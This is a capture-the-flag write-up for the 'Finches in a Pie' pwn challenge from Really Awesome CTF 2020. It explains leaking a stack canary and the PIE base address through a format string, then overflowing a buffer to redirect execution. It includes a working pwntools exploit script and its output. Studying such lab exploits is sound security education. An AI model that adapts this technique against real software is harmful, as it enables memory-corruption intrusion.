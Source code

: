 # Really Awesome CTF 2020

## Finches in a Pie

> 500
>
> Challenge instance ready at `88.198.219.20:41133`
>
> There's a service at ..., exploit it to get the flag.
>
> Author: Ironstone
>
> [`fiap`](fiap)

Tags: _pwn_ _x86_ _rop_ _bof_ _stack-canary_ _format-string_

## Summary

Format-string exploit leaks canary (and base process address) permitting `gets` to _get_ through, redirection execution to `flag`.

This is identical to [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md) with a minor change.  Please read that first.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Unlike [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md), most mitigations are in place.  In addition to leaking the canary, we'll have to leak the base process address as well.

> Checkout position three in the stack dump from [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md).


## Exploit

```
#!/usr/bin/python3

from pwn import *
import sys

#p = process('./fiap')
p = remote('88.198.219.20',43174)

binary = ELF('./fiap')

p.recvuntil('What\'s your name?')
p.sendline('%11$p,%3$p')
p.recvuntil('Thank you, ')
_ = p.recvline().strip().strip(b'!')

# 0x5655628f  →  <say_hi+13> add ebx, 0x2d71
baseproc = int(_.split(b',')[1],16) - binary.symbols['say_hi'] - 13
canary = int(_.split(b',')[0],16)

p.recvuntil('Would you like some cake?')

payload  = (0x29 - 16) * b'A'
payload += p32(canary)
payload += 3 * p32(0x0) # ebx, edi, ebp
payload += p32(baseproc + binary.symbols['flag'])

p.sendline(payload)
p.recvline()
_ = p.recv(100).decode().strip()
print(_)
```

This differs from [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md) in that we're leaking two stack parameters: `%11$p,%3$p`, the canary and the address of `say_hi+13`.  With the address of `say_hi` known we can compute the base process address, and then the exploit is the same as before, however we need to add `baseproc` to the address of `flag`.

Output:

```
# ./exploit.py
[+] Opening connection to 88.198.219.20 on port 43174: Done
[*] '/pwd/datajerk/ractf2020/fiap/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
ractf{B4k1ng_4_p1E!}
```

